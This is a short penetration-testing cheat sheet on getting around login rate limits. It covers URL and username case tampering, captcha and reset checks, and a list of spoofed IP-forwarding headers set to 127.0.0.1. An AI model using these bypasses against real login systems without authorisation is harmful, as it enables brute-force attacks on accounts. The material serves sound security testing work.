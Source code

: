 # Rate limiting

## Tamper url
Try appending characters to the url or changinging lowercase/uppercase
characters, sometimes rate limiting adopts weird per route logic

## Username based limiting
Sometimes a username based strategy is adopted for rate limiting. As before,
try to add spaces or changing lowercase/uppercase characters in the
email/username

## Captcha
If there is a captcha check if it's actually validated server side

## Correct login
Test if logging in correctly resets the rate limiting

## Bypass using HTTP headers
Try to add these headers to bypass rate limiting:
```
Forwarded-For-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
Forwarded: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwared-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Rewrite-URL: 127.0.0.1
```
